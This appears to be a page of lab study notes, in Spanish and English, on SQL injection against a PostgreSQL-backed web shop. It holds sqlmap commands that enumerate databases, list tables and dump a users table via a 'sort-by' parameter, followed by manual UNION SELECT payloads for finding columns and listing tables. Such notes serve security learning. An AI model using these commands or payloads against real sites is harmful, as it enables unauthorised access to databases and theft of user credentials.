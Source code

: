 [SQLMAP Help usage](https://github.com/sqlmapproject/sqlmap/wiki/Usage)

> SQLMAP DBS to get databases.

-p le dice a sqlmap que `sort-by` es el comando a testear de la url

```js
sqlmap -u "https://vulnerable-site.com/products?sort-by=price" \
-p "sort-by" -batch --dbms=PostgreSQL --technique=E --level=5 --dbs


-p 'sort-by' -batch --dbms postgresql --technique E --level 5 --dbs
```

> Use SQLMAP dump tables identified from `public` database.

```js
sqlmap -u "https://vulnerable-site.com/products?sort-by=price" \ -p "sort-by" -batch --dbms=PostgreSQL --technique=E --level=5 \ -D public --tables

-p 'sort-by' -batch --dbms postgresql --technique E --level 5 -D public --tables
```

> ContinueUse SQLMAP `E` Technique to get the `users` content.

```js
sqlmap -u "https://vulnerable-site.com/products?sort-by=price" \
-p "sort-by" -batch --dbms=PostgreSQL --technique=E --level=5 \
-D public -T users --dump


-p 'sort-by' -batch --dbms postgresql --technique E --level 5 -D public -T users --dump
```

### LAB: Listing content database in Non-Oracle Manual SQLi `?category=` `admin password` `postgreSQL`

> SQL injection UNION attack, determining the **number of columns** returned by the query.

Por ejm las consultas malas retornan 500 error server, como está: 
`?category=Pets'+UNION+SELECT+NULL,NULL,NULL,NULL,NULL,NULL--` ahora uno va ajustando quitando o añadiendo nulls segun cual retorné 200 oK, en este caso fue ese: 

```sql
'+UNION+SELECT+NULL,NULL--
```

> Determined there is **two** columns returned. Finding a column containing `text`, to be used for reflecting information extracted.

```sql
'+UNION+SELECT+'fuzzer',NULL--
```

> Next _**identifying**_ a list of **tables** in the database.

```sql
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
```
